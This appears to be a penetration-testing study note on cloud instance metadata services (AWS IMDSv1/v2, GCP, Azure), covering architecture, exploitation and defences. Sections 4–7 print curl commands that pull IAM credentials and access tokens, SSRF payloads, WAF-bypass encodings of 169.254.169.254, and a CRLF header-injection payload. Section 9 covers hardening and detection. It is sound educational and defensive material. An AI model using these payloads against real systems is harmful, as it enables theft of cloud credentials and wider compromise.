

# Cloud Metadata Services (IMDS) Overview

## 1. Introduction to Instance Metadata Services
In modern cloud environments, virtual machines (VMs) and containers are often ephemeral—they spin up and down based on demand. Hardcoding credentials or configuration details inside these machine images is a severe security anti-pattern. To solve this, cloud providers (AWS, Azure, GCP, Alibaba) provide an **Instance Metadata Service (IMDS)**.

The IMDS is a REST API running on a non-routable link-local IP address (`169.254.169.254`). It is accessible *only* from within the compute instance itself. The service provides the instance with vital information about its own configuration, network, tags, user-data (startup scripts), and crucially, **temporary, dynamically generated access tokens for the cloud environment's APIs**.

From a Vulnerability Assessment and Penetration Testing (VAPT) perspective, the IMDS is the holy grail of cloud initial access. If an attacker can trick a cloud-hosted application into making a HTTP request to the IMDS—typically via Server-Side Request Forgery (SSRF) or Remote Code Execution (RCE)—they can steal these temporary credentials and achieve an initial foothold into the broader cloud environment.

## 2. Core Concepts and Architecture
The fundamental concept of the IMDS is that the cloud hypervisor intercepts traffic destined for `169.254.169.254` and routes it to the metadata server.

- **Link-Local Address:** The IP `169.254.169.254` is standard across almost all major cloud providers.
- **Metadata:** Includes instance IDs, private/public IP addresses, VPC details, and SSH public keys.
- **User-Data:** Custom scripts or configurations supplied by the administrator, executed when the instance boots. Often contains hardcoded secrets or database passwords.
- **Identity Credentials:** Short-lived tokens tied to the IAM Role, Managed Identity, or Service Account attached to the VM.

## 3. Metadata Service Architecture Diagram
The following ASCII diagram illustrates how an attacker abuses an SSRF vulnerability to interact with the IMDS and exfiltrate cloud credentials.



## 4. AWS Metadata Service (IMDSv1 vs IMDSv2)
AWS was the pioneer of the metadata service, and as a result, heavily dictates the security conversations surrounding it.

### 4.1 IMDSv1 (The Vulnerable Standard)
IMDSv1 relies purely on a simple HTTP GET request. It is extremely vulnerable to basic SSRF attacks because no special headers are required.

**Extracting User-Data:**
```bash
curl http://169.254.169.254/latest/user-data
```

**Extracting IAM Role Credentials:**
First, list the role name attached to the instance:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Assume output is "DevWebRole"
```
Next, request the credentials for that role:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/DevWebRole
```
**Output (The Prize):**
```json
{
  "Code" : "Success",
  "AccessKeyId" : "ASIA......",
  "SecretAccessKey" : "abc123def456......",
  "Token" : "IQoJb3JpZ2luX2VjE......",
  "Expiration" : "2026-06-11T02:00:00Z"
}
```
*Note: The `Token` (Session Token) is mandatory when using these temporary credentials via the AWS CLI.*

### 4.2 IMDSv2 (The Security Upgrade)
Due to the prevalence of SSRF attacks (such as the infamous Capital One breach), AWS introduced IMDSv2. It implements a session-oriented approach requiring a `PUT` request to generate a token, which must then be passed as a specific header in subsequent `GET` requests. 

This completely mitigates simple GET-based SSRF and blind SSRF vulnerabilities.

**Interacting with IMDSv2:**
```bash
# 1. Generate a token (valid for 21600 seconds)
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`

# 2. Use the token to fetch credentials
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/DevWebRole
```
If an attacker only has SSRF that cannot send custom HTTP headers or `PUT` requests, IMDSv2 will block the attack.

## 5. Google Cloud Platform (GCP) Metadata Service
Google recognized the SSRF threat early and implemented custom header requirements long before AWS released IMDSv2. To interact with the GCP metadata server, a specific header `Metadata-Flavor: Google` is strictly required.

**Extracting GCP Project Details:**
```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/project/project-id
```
*(Note: GCP resolves `metadata.google.internal` to `169.254.169.254`)*

**Extracting Service Account Access Tokens:**
```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
**Output:**
```json
{
  "access_token": "ya29.c.b0AXv0zT...",
  "expires_in": 3599,
  "token_type": "Bearer"
}
```
This token can be passed directly as a Bearer token in GCP REST API requests or used with the `gcloud` CLI.

### 5.1 Legacy v0.1 / v1beta1 bypasses
Historically, GCP had older endpoints (`v0.1` and `v1beta1`) that did not strictly enforce the `Metadata-Flavor` header, allowing simple SSRF. These have been heavily deprecated and are disabled by default in modern GCP environments, but they are still checked by automated pentesting tools during legacy environment assessments.

## 6. Microsoft Azure Metadata Service
Similar to GCP, Azure requires a custom header `Metadata: true` to prevent simple SSRF exploitation.

**Extracting General Instance Metadata:**
```bash
curl -H Metadata:true "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

**Extracting Managed Identity Tokens:**
If the Azure VM is assigned a System-Assigned or User-Assigned Managed Identity, you can request an OAuth token for the Azure Resource Manager (ARM) endpoint.
```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s
```
**Output:**
```json
{
  "access_token": "eyJ0eXAiOiJKV...",
  "client_id": "12345678-abcd-...",
  "expires_in": "86399",
  "resource": "https://management.azure.com/"
}
```

## 7. Exploitation via SSRF
When testing a web application for SSRF, testing for IMDS access is the primary objective in cloud environments.

### 7.1 Basic SSRF Payload (Targeting AWS IMDSv1)
If an application accepts a URL and fetches the content (e.g., a PDF generator or webhook tester):
```text
http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/
```

### 7.2 Bypassing WAFs and Filters
Many Web Application Firewalls (WAFs) and application-level filters specifically block the string `169.254.169.254`. Attackers use various obfuscation techniques:

- **Hexadecimal Encoding:** `http://0xA9FEA9FE`
- **Dotted Hex:** `http://0xA9.0xFE.0xA9.0xFE`
- **Decimal:** `http://2852039166`
- **Octal:** `http://0251.0376.0251.0376`
- **DNS Rebinding:** Using a service like `169.254.169.254.nip.io` which resolves to the target IP via DNS, bypassing simple regex checks.

### 7.3 Bypassing Header Restrictions (CRLF Injection)
For AWS IMDSv2, Azure, and GCP, a standard GET request via SSRF will fail due to the missing required headers. However, if the SSRF vulnerability is coupled with a Carriage Return Line Feed (CRLF) injection, an attacker might be able to inject the required header.
```text
http://internal-server.com/%0d%0aMetadata-Flavor:%20Google%0d%0a/../../../../metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
*(Note: Success heavily depends on the specific HTTP client library used by the vulnerable application).*

## 8. Containers and Kubernetes Metadata
In a Kubernetes cluster (like EKS, AKS, or GKE), the concept of metadata becomes more complex. 
- By default, a pod deployed on an EC2 node can access the EC2 node's IMDS. This means if you compromise a single container, you might extract the IAM credentials of the *entire underlying worker node*.
- To mitigate this, cloud providers implement mechanisms like **IAM Roles for Service Accounts (IRSA)** in EKS, or **Workload Identity** in GKE.
- When IRSA/Workload Identity is configured, the pod no longer hits `169.254.169.254`. Instead, it looks for environmental variables (e.g., `AWS_WEB_IDENTITY_TOKEN_FILE`) which point to a mounted token volume, allowing fine-grained, pod-specific permissions rather than node-wide permissions.

## 9. Defending the IMDS
Securing the metadata service is a critical aspect of cloud infrastructure hardening.

1. **Enforce IMDSv2 (AWS):** Administrators should strictly require the use of IMDSv2 on all EC2 instances, completely neutralizing simple SSRF vectors.
2. **Network Policies / IPTables:** Use host-based firewalls (iptables) to restrict which OS users (e.g., only `root` or specific application users) can route traffic to `169.254.169.254`.
3. **Least Privilege:** Ensure the IAM Role or Managed Identity attached to the instance has the absolute minimum permissions necessary. Even if the credentials are stolen, their blast radius should be contained.
4. **GuardDuty / Defender for Cloud:** Enable cloud-native threat detection. These services actively monitor API calls. If temporary credentials generated for an EC2 instance are suddenly used from an IP address outside the AWS environment (e.g., an attacker's laptop), a critical alert is triggered (`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS`).

## 10. Conclusion
The Instance Metadata Service is a foundational component of cloud infrastructure that operates at the intersection of network and identity. Understanding the nuances of IMDS implementation across AWS, Azure, and GCP—and how to interrogate them via vulnerabilities like SSRF—is an absolute necessity for cloud penetration testing. Securing it correctly is the single most effective defense against widespread cloud compromise originating from vulnerable web applications.

---
## Chaining Opportunities
- **[[06 - Enumerating AWS IAM Permissions]]**: Once credentials are stolen from the AWS IMDS, they are immediately used to enumerate IAM.
- **[[08 - Enumerating GCP Projects and Service Accounts]]**: GCP Service Account tokens from the metadata server are the key to discovering further GCP resources.
- **[[35 - Server-Side Request Forgery (SSRF) Deep Dive]]**: SSRF is the primary delivery mechanism for exploiting the IMDS in web application assessments.

## Related Notes
- [[02 - Identity and Access Management Concepts]]
- [[40 - Kubernetes Security Basics]]
- [[55 - Bypassing WAFs and Input Filters]]
